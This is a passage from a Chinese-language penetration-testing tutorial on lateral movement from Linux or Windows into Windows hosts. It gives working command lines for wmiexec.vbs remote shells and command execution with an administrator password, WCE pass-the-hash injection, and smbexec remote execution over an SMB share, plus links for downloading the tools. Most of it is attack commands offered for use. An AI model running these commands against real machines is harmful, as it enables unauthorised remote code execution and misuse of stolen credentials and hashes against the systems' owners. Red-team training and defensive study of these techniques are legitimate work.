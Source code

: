 Linux:  
想要从 Linux 向 Windows 进行横向渗透的话，可以使用 impacket 工具包中的 wmiexec.py 文件，得到目标的 shell

Windows:  
可以通过 VBS 调用 VMI 来模拟 PsExec 的功能

```
cscript.exe //nologo wmiexec.vbs /shell 192.168.100.190 administrator 123456      #半交互式shell模式
cscript.exe wmiexec.vbs /cmd 192.168.100.190 administrator 123456 "ipconfig"      #远程执行命令
#wmiexec.vbs已被列入各大安全厂商的黑名单


```

上面是提供账号密码的情况，如果有时候我们抓取到的是 hash，破解不了时可以利用 WCE 的 hash 注入，然后再执行 WMIEXEC（不提供账号密码）就可以了：

```
wce.exe -s 用户名:机器名或ip:LM-HASH:NT-HASH
wce.exe -s 用户名:域名:LM-HASH:NT-HASH
#Tips：如果抓取的 LM hash 是 AAD3 开头的，或者是 No Password 之类的，就用 32 个 0 代替 LM hash 即可


```

[wce 下载链接](https://github.com/returnvar/wce)

相关设定：

```
Const Path = "C:\\"
Const FileName = "wmi.dll"
Const timeOut = 1200
#这段代码在脚本的一开始，是控制结果文件路径、文件名、以及默认代码执行时间的，可以自行更改


```

[wmiexec.vbs 下载链接](http://www.secpulse.com/wp-content/uploads/2015/05/cache-a360611dc24d240989799c29c555e4b7_wmiexec-v1_1.rar)

### 5.7 smbexec 的使用

smbexec 是需要提前将自身上传到目标服务器上的

```
test.exe：客户端主程序
execserver.exe：目标系统中的辅助程序


```

```
net use \\\\192.168.100.205 "123456" /user:pentest.com\\administrator

#将execserver.exe上传到目标系统的C:\\windows\\目录下
smbexec.exe 192.168.100.205 administrator 123456 whoami c$


```
